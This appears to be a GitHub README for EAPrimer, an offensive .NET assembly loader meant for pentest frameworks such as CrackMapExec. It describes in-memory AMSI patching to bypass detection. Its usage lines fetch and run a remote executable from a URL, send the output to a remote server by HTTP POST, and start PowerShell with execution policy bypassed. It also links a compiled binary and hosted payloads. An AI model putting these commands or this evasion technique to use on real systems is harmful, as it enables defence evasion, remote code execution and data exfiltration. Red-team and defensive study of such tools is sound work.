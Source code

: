 # EAPrimer

EAPrimer can be used to load .Net assemblies from a filepath or URL. On startup, it will attempt to perform in-memory patching of AMSI to bypass detection. By default, output is written to the console, however, this can be directed to a file or even sent via HTTP POST request to a remote server.

The latest, compiled version of the code is available <a href="EAPrimer/bin/Release/">here</a>.

#### Usage:
Execute remote file with arguments and send output to server:
```text
EAPrimer.exe -path=https://192.168.1.2/Seatbelt.exe -post=https://192.168.1.2 -args="-group=all"
```

Execute local file with arguments and write output to file:
```text
EAPrimer.exe -path=.\Seatbelt.exe -post=results.txt -args="-group=all"
```


## Invoke-EAPrimer.ps1
The main purpose for writing EAPrimer.exe was to act as a support, or "Primer", for executing assemblies. Ultimately allowing for an "execute_assembly" module in pentest frameworks such as <a href="https://github.com/m8r0wn/ActiveReign">ActiveReign</a> and <a href="https://github.com/byt3bl33d3r/CrackMapExec">CrackMapExec</a>. The PowerShell script allows for added flexibility to create these modules  *(coming soon)*.

#### Usage:
```powershell
powershell -exec bypass
Import-Module .\Invoke-EAPrimer.ps1
Invoke-EAPrimer -Path .\Seatbelt.exe -Args -group=all
```

## Credit
This was one of my first deep dives into C# and much of the heavy lifting was already done by these guys:
* <a href="https://twitter.com/Flangvik">Flangvik</a> - <a href="https://github.com/Flangvik/NetLoader">NetLoader</a>
* <a href="https://twitter.com/_RastaMouse/">_RastaMouse</a> - <a href="https://github.com/rasta-mouse/AmsiScanBufferBypass/blob/master/ASBBypass/Program.cs">AMSI Bypass</a>

## Notes
* Built with .Net 4.0
* Checkout <a href="https://github.com/Flangvik/SharpCollection">SharpCollection</a> for hosted payloads to test it out!